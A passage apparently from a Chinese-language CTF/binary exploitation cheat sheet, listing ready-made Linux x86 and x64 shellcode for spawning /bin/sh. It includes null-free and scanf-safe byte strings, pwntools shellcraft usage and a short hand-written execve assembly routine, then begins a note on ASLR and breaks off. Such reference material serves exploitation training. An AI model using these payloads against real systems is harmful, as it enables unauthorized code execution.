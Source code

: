 - 无`\x00`截断版（21字节）

```
C - 1 lines
x6ax0bx58x99x52x68x2fx2fx73x68x68x2fx62x69x6ex89xe3x31xc9xcdx80
```

- `scanf`可读取版（41字节）

```
C - 1 lines
xebx1bx5ex89xf3x89xf7x83xc7x07x29xc0xaax89xf9x89xf0xabx89xfax29xc0xabxb0x08x04x03xcdx80xe8xe0xffxffxff/bin/sh
```

### 64位

Linux x64 shellcode

- pwntools生成（64位48字节）

```
PYTHON - 2 lines
context.arch = elf.arch
shellcode = asm(shellcraft.sh())
```

- 手写汇编 shell（20字节）

```
PYTHON - 11 lines
#20字节
shellcode="""
xor esi,esi
mov rbx,0x68732f6e69622f
push rbx
push rsp
pop rdi
mov al, 59
cdq
syscall
"""
```

- 无 `x00` 截断且`scanf`可读版（22字节）

```
C - 1 lines
x48x31xf6x56x48xbfx2fx62x69x6ex2fx2fx73x68x57x54x5fxb0x3bx99x0fx05
```

## ASLR保护

ASLR 是一个 Linux 系统保护机制，有效的防止了很多漏洞。

> ASLR 是操作系统的功能选项，在 ELF 文件加载到内存的时候发动，会影响到栈、动态链接库、堆的基址。开启后，每次程序加载使栈、动态链接库、堆的基地址都会随机化。

ASLR有三种状态
